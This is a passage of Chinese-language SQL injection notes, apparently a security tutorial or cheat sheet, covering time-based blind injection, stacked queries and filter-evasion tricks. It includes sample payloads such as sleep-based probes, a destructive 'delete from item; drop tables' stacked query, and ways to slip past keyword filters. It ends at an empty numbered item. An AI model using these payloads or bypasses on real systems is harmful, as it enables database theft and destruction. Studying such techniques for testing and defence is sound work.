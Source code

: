 ```
```

### 2.2.4 Time-based blind SQL injection (常用)

```
如 a' and sleep(7); 需要注意的是: 返回n条数据, 将睡眠 7n 秒.
示例: SELECT ASCII(SUBSTR(DATABASE(), 2, 1)) = 33 AND SLEEP(2); -- 

一般使用脚本来注入
常用函数
substr(),ascii(),length()
```

### 2.2.5 Stacked queries SQL injection (堆叠注入，能执行多段SQL)

    应用场景较少，如 a'; delete from item; drop tables;...
    一般mysql不开启支持多条语句的功能。

### 2.2.6 sql-injection混淆和绕过

```python
混淆注入：
普通注入方式很容易被检测出来，所以需要改变攻击的手法，绕过检测和过滤，也即为混淆和绕过


1.union或者select变形
针对服务端将union或者select替换掉的情况，可以：
变形为：UNion或者UNunionION
变形为：SeLEct或者SELEselectCT
但如果递归替换，上述混淆方式也是无效的。
如果服务端判断union和select同时存在时即报错，那么上述混淆方式也是无效的。
SELECT/**/id,name/**/FROM/**/tb_stu /*!union*/ SELECT 1,2


2.and或者or变形
and 变为 &&, or 变为 ||


3.空格的处理
加上20%或者/**/,如
SELECT/**/id,name/**/FROM/**/tb_stu


4.where被禁用，可用limit替换
select * from tb_stu where id=1
替换为：select * from tb_stu limit 0,1


5.limit被禁用
select * from tb_stu limit 0,1
替换为: select * from tb_stu GROUP BY id HAVING id=1 (这种情况，id要是主键)

6.select被禁用
可尝试substr函数

7.=被禁用
select * from tb_stu where name='tom'
替换为：select * from tb_stu where name like 'tom'

8.注意库名大小写敏感，表名及字段名一般大小写不敏感

9.
```
